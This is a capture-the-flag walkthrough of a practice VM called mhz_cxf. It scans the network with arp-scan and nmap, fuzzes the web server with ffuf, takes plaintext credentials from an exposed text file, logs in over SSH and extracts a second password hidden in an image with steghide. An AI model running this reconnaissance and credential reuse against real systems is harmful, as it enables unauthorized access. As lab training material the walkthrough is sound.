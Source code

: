 # mhz_cxf: c1f

### 1.Get VM IP

```bash
root@kali: arp-scan -I eth0 -l
Interface: eth0, type: EN10MB, MAC: 08:00:27:b2:e9:3f, IPv4: 192.168.56.102
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.56.1	0a:00:27:00:00:12	(Unknown: locally administered)
192.168.56.100	08:00:27:f2:81:70	PCS Systemtechnik GmbH
192.168.56.125	08:00:27:5a:e1:83	PCS Systemtechnik GmbH
```

The IP address is `192.168.56.125`, let's enumerate it

### 2.Enumeration

```bash
root@kali: nmap -sT -sV -sC -v -p- -oN nmap.out 192.168.56.125

Nmap scan report for 192.168.56.125
Host is up (0.00078s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 38:d9:3f:98:15:9a:cc:3e:7a:44:8d:f9:4d:78:fe:2c (RSA)
|   256 89:4e:38:77:78:a4:c3:6d:dc:39:c4:00:f8:a5:67:ed (ECDSA)
|_  256 7c:15:b9:18:fc:5c:75:aa:30:96:15:46:08:a9:83:fb (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
MAC Address: 08:00:27:5A:E1:83 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

i tried to fuzz the system for any new files or directories :

```bash
root@kali: ffuf -w /root/wordlist/raft-medium-words.txt  -u http://192.168.56.125/FUZZ -e .txt,.php,.rar,.zip,.tar,.old,.js,.bak -fc 403

notes.txt               [Status: 200, Size: 86, Words: 16, Lines: 4, Duration: 1ms]
```

check notes.txt :

```text
1- i should finish my second lab 
2- i should delete the remb.txt file and remb2.txt
```

check `remb.txt` :

```text
first_stage:flagitifyoucan1234
```

it looks like a username and password.


### 3.Gaining Shell

Let's ssh to system using the username and password found previously :

```bash
root@kali: ssh first_stage@192.168.56.125
first_stage@192.168.56.125's password: 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-96-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun Apr 21 08:07:13 UTC 2024

  System load:  0.29              Processes:             91
  Usage of /:   39.9% of 9.78GB   Users logged in:       0
  Memory usage: 52%               IP address for enp0s3: 192.168.56.125
  Swap usage:   0%

23 packages can be updated.
0 updates are security updates.

$ id
uid=1001(first_stage) gid=1001(first_stage) groups=1001(first_stage)
```

### 4.Privilege Escalation (mhz_c1f)

first check /home directory and `/home/mhz_c1f/Paintings` :

```bash
'19th century American.jpeg'  'Russian beauty.jpeg'
'Frank McCarthy.jpeg'         'spinning the wool.jpeg'
```

these images should be transfered to you kali machine to check for any hidden data within them :

```bash
root@kali: scp first_stage@192.168.56.125:/home/mhz_c1f/Paintings/'19th century American.jpeg' .
root@kali: scp first_stage@192.168.56.125:/home/mhz_c1f/Paintings/'Russian beauty.jpeg' .
root@kali: scp first_stage@192.168.56.125:/home/mhz_c1f/Paintings/'Frank McCarthy.jpeg'  .
root@kali: scp first_stage@192.168.56.125:/home/mhz_c1f/Paintings/'spinning the wool.jpeg' .
```

check one by one by `steghide` and in the image `'spinning the wool.jpeg'`, you will find `remb2.txt` :

```bash
root@kali: teghide extract -sf 'spinning the wool.jpeg'
wrote extracted data to "remb2.txt".
```

and check the content of remb2.txt

```text
ooh , i know should delete this , but i cant' remember it 
screw me 

mhz_c1f:1@ec1f
```

there is another username and password






